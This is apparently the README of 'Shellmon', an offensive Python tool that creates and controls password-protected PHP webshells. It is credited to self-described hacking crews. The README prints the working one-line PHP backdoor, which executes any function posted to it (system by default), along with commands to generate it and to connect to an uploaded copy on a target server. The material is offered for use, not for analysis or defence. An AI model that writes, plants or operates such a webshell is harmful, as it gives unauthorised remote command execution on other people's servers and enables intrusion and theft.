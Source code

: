 <div align="center">

![ShellMon](img/logo.png)
![](https://img.shields.io/badge/Version-1.0.0-red)
![](https://img.shields.io/badge/License-MIT-green)
![](https://img.shields.io/badge/Python-3.10.0-blue)

> An Simple PHP Webshell Manager

</div>

## Description
Shellmon is a tool used to create and control a webshell remotely, created using the Python3 programming language using the "Object Oriented" method. The resulting webshell has been coded very simply and has a size of no more than 80 bytes. 
It provides an interactive shell in your terminal that makes it easy for you to create or control a webshell.

## Instalation
The installation process of this tool is quite easy, it does not use an external python modules that makes your computer's storage space a bit filled.

Please download this repository or you can also clone the repository using git by typing the following command in your terminal: 
```bash
git clone https://github.com/22XploiterCrew-Team/Shellmon
```
after that move the pre-work directory in your terminal to the ***shellmon*** directory.

## Usage
Simple interactive shell commands make it easy to run this tool.

type `python shellmon.py` in the terminal screen to display the help command.
![help](img/help2.png)

If you want to generate a new webshell, you just need to type this command in the terminal
```bash
python shellmon.py -p yourpassword --generate
```
webshell files will be automatically saved in your current pre-employment directory, filenames will be auto-generated with number format 0-9 and use .php extension.

Content webshell:
```php
<?=(isset($_GET[0])&&$_GET[0]=="yourpassword"?:die("0"))&&@$_POST[0]($_POST[1]);
```
actually the above code can still be made simpler like this
```php
<?=($_GET[0]=="yourpassword"?:die("0"))&&@$_POST[0]($_POST[1]);
```
but I'm worried that the server will send the status code ***500 Internal Server Error***, because this tool also checks the response code from the server and only receives the response code ***200 OK***.


Furthermore, if you want to connect your uploaded webshell to the target server, you just need to type this command on the terminal screen
```bash
python shellmon.py -u https://target.com -p yourpassword
```
display if successfully connected
![result](img/res2.png)
you can also customize PHP shell functions by using the `--func [function]` argument, by default the function used is ***system***.

#### Support
- 22XploiterCrew
- Banyumas Cyber Team
- Jombang BlackHat
